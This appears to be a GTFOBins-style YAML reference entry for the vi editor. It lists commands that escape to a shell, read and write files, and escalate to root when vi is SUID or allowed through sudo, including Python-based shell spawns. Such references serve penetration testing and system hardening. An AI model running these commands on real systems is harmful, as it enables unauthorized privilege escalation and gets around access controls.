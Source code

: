 ```yaml
---
name: vi
functions:
  shell:
    - code: vi -c ':!/bin/sh'
    - code: |
        vi
        :set shell=/bin/sh
        :shell
    - description: This requires that `vi` is compiled with Python support.
      code: vi -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
  file-write:
    - code: |
        vi file_to_write
        iDATA
        ^[
        w
  file-read:
    - code: vi file_to_read
  suid:
    - code: ./vi -c ':!/bin/sh -p'
    - description: This requires that `vi` is compiled with Python support.
      code: ./vi -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
  sudo:
    - code: sudo vi -c ':!/bin/sh'
    - description: This requires that `vi` is compiled with Python support.
      code: sudo vi -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
---
```

